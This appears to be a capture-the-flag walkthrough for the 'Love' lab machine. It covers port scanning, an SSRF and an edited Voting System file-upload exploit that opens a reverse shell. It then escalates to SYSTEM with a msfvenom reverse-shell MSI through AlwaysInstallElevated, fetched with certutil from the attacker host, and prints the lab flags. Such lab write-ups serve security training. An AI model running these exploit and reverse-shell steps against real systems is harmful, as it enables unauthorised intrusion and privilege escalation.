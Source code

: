 ![Love.PNG](/assets/Machines/Easy/Love/Love.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.239
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.239
```

**Output**
```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

3. Visit web page
   
![web.PNG](/assets/Machines/Easy/Love/web.PNG)

* Doing manual fuzzing we discover **/admin** directory

1. Use **openssl** to investigate more of webpage
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Love]
└─| openssl s_client -connect 10.10.10.239:443
```

**Output**
```bash
...
depth=0 C = in, ST = m, L = norway, O = ValentineCorp, OU = love.htb, CN = staging.love.htb, emailAddress = roy@love.htb                                     
verify error:num=10:certificate has expired
...
```
* We discover a subdomain, do virtual hosting (Put this subdomain in `/etc/hosts`)

5. Visit web page of previous subdomain (Demo Option)

![subdomain.PNG](/assets/Machines/Easy/Love/subdomain.PNG)


* If we visit all ports in web browser port 5000 is forbidden, try to do **SSRF** for get information

6. Try to put in **url field** this `http://127.0.0.1:5000`

![ssrf.PNG](/assets/Machines/Easy/Love/ssrf.PNG)


7. Search for any exploit with **Voting System**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Love]
└─| searchsploit voting system
```

**Output**
```bash
------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                               |  Path                     |
------------------------------------------------------------------------------------------------------------------------------------------
Online Voting System - Authentication Bypass                                                                 | php/webapps/43967.py
Online Voting System 1.0 - Authentication Bypass (SQLi)                                                      | php/webapps/50075.txt
Online Voting System 1.0 - Remote Code Execution (Authenticated)                                             | php/webapps/50076.txt
Online Voting System 1.0 - SQLi (Authentication Bypass) + Remote Code Execution (RCE)                        | php/webapps/50088.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting                             | multiple/webapps/49159.txt
Voting System 1.0 - Authentication Bypass (SQLI)                                                             | php/webapps/49843.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                    | php/webapps/49445.py
Voting System 1.0 - Remote Code Execution (Unauthenticated)                                                  | php/webapps/49846.txt
Voting System 1.0 - Time based SQLI  (Unauthenticated SQL injection)                                         | php/webapps/49817.txt
WordPress Plugin Poll_ Survey_ Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection    | php/webapps/50052.txt
------------------------------------------------------------------------------------------------------------------------------------------ 
```

* Use **php/webapps/49445.py** to execute commands


8. Modified previous code
```python
# --- Edit your settings here ----                     
IP = "<Machine's IP>" # Website's URL     
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password                                           
REV_IP = "<Tun0 IP>" # Reverse shell IP                               
REV_PORT = "<PORT>" # Reverse port                                     
# --------------------------------                                                                           

INDEX_PAGE = f"http://{IP}/admin/index.php"              
LOGIN_URL = f"http://{IP}/admin/login.php"       
VOTE_URL = f"http://{IP}/admin/voters_add.php"    
CALL_SHELL = f"http://{IP}/images/shell.php"
```

* We delete **votesystem** for fix errors, in this case we only have **admin directory**

9. Listen with **nc** in port put in previous code and execute python script


### **Python Script**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Love]
└─# python exploit.py       
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully
```

### **Reverse shell**
```cmd
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Love]
└─| rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.239] 58239
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

dir^M
dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\xampp\htdocs\omrs\images

12/28/2022  08:26 AM    <DIR>          .
12/28/2022  08:26 AM    <DIR>          ..
12/28/2022  08:26 AM             5,632 D3fa1t_shell.exe
05/18/2018  07:10 AM             4,240 facebook-profile-image.jpeg
04/12/2021  02:53 PM                 0 index.html.txt
01/26/2021  11:08 PM               844 index.jpeg
08/24/2017  03:00 AM            26,644 profile.jpg
12/28/2022  08:26 AM             6,473 shell.php
               6 File(s)         43,833 bytes
               2 Dir(s)   4,168,822,784 bytes free

C:\xampp\htdocs\omrs\images>
```

* Use rlwrap to do `Ctrl` + `c` and `Ctrl` + `l`

10. Cat **user flag** (Path = `C:\Users\Phoebe\Desktop`)
`9a1cca509de22e8b9ed4eb72fad9793d`

---
---
---
### **Privileges Escalation** 💀

1.  Use winPEAS to discover ways for privileges escalation

+ Download winPEAS for [Github Repository](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and create a server with python
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Love]
└─| python -m http.server 80
```

+ Create a directory in `Windows\Temp` and download winPEAS
```cmd
C:\Windows\Temp\te>certutil.exe -f -urlcache -split http://10.10.14.13/winPEASx64.exe
```

+ Run winPEAS and look way escalate privileges
```cmd
 Checking AlwaysInstallElevated                                                                                                                              
  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated 
    AlwaysInstallElevated set to 1 in HKLM!                                                                                                                  
    AlwaysInstallElevated set to 1 in HKCU!
```

* Visit [Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) and watch how elevate privileges with previous info

2. You need to create a **msi** file 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Love]
└─| msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Tun0 IP> LPORT=<Port> --platform windows -a x64 -f msi -o malicious.msi
```

3. Download this file in target machine (Create server withan user certutil.exe)
4. Execute this malicious msi file
```cmd
msiexec /quiet /qn /i malicious.msi
```

* Remember listen on port choosing before 

**Output**
```cmd
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Driver]
└─| nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.239] 58250
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

5. Cat root flag
```bash
C:\Users\Administrator\Desktop>type root.txt
79339b9e5eb0f695d2507f583a7492b9
```